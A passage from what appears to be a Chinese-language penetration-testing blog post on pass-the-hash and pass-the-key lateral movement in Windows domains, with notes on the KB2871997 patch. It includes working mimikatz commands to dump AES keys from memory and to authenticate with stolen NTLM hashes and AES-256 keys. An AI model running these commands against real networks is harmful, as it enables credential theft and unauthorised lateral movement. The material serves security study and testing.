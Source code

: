   * 

    
    
    sekurlsa::pth /user:administrator /domain:tubai.com /ntlm:2b07f7b579bb97532a9eb37753765d8f "/run:mstsc.exe /restrictedadmin"

  

![](https://gitee.com/fuli009/images/raw/master/public/20210810085737.png)PTK  

如果hash的ntlm hash，然后加密方式是rc4，这种就算做是pass the hash，如果是hash是aes
key(使用sekurlsa::ekeys导出来)，就算是pass the key。在很多地方，不支持rc4加密方式的时候，使用pass the
key不失为一种好方法。

安装补丁kb2871997的Win 7/2008r2/8/2012等，可以使用AES keys代替NT hash来实现ptk攻击。

前提条件：只适用于域环境，并且目标主机需要安装 KB2871997补丁

mimkatz抓AES keys密钥

    
    
    mimikatz "privilege::debug" "sekurlsa::ekeys"

导入  

  * 

    
    
    mimikatz "privilege::debug" "sekurlsa::pth /user:win7 /domain:tubai.com /aes256:c4388a1fb9bd65a88343a32c09e53ba6c1ead4de8a17a442e819e98c522fc288"

  

![](https://gitee.com/fuli009/images/raw/master/public/20210810085737.png)补丁限制：kb2871997  

![](https://gitee.com/fuli009/images/raw/master/public/20210810085757.png)

  

对PTH攻击做了限制的补丁，他使本地账号不再用于远程接入系统。

kb2871997对于本地Administrator(rid为500，操作系统只认rid不认用户名)和本地管理员组的域用户是没有影响的。

参考：

    
    
    https://my.oschina.net/u/4327596/blog/3426286  
    https://blog.csdn.net/Gamma_lab/article/details/118335958

总结：PTH是内网横向最常用的方式，利用的攻击思路也很多，远远不止给大家分享的这些。各位师傅要是有更多的利用姿势可以一起交流学习！今天给大家从ntlm认证原理到PTH在横向中多姿势利用做了总结，比较全面的汇总了PTH在内网横向中的各种手段。  

  

  

预览时标签不可点

收录于话题 #

个 __

上一篇 下一篇

